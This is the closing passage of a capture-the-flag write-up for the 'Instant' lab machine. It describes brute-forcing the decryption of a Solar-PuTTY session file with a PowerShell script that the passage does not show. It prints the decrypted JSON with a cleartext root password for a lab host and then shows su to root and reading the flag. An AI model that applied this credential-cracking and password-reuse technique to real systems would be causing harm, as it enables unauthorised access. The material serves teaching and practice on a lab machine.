Name that bad boy **wrapper.ps1** and run it in powershell. Don't forget to enable running scripts if you also use Windows Sandbox like me. A successful decryption will place the txt file on the user's desktop, and it happened on the word estrella (I had to grab a chunk of names and test them manually for around when it happened). The results of the file are as follows:

```json
{
  "Sessions": [
    {
      "Id": "066894ee-635c-4578-86d0-d36d4838115b",
      "Ip": "10.10.11.37",
      "Port": 22,
      "ConnectionType": 1,
      "SessionName": "Instant",
      "Authentication": 0,
      "CredentialsID": "452ed919-530e-419b-b721-da76cbe8ed04",
      "AuthenticateScript": "00000000-0000-0000-0000-000000000000",
      "LastTimeOpen": "0001-01-01T00:00:00",
      "OpenCounter": 1,
      "SerialLine": null,
      "Speed": 0,
      "Color": "#FF176998",
      "TelnetConnectionWaitSeconds": 1,
      "LoggingEnabled": false,
      "RemoteDirectory": ""
    }
  ],
  "Credentials": [
    {
      "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
      "CredentialsName": "instant-root",
      "Username": "root",
      "Password": "12**24nzC!r0c%q12",
      "PrivateKeyPath": "",
      "Passphrase": "",
      "PrivateKeyContent": null
    }
  ],
  "AuthScript": [],
  "Groups": [],
  "Tunnels": [],
  "LogsFolderDestination": "C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"
}
```

root(?) password, always worth a shot testing if it works.

```bash
shirohige@instant:~$ su root
Password: 
root@instant:/home/shirohige# cd ~
root@instant:~# cat root.txt
a6ca259f38f2--------------------
```

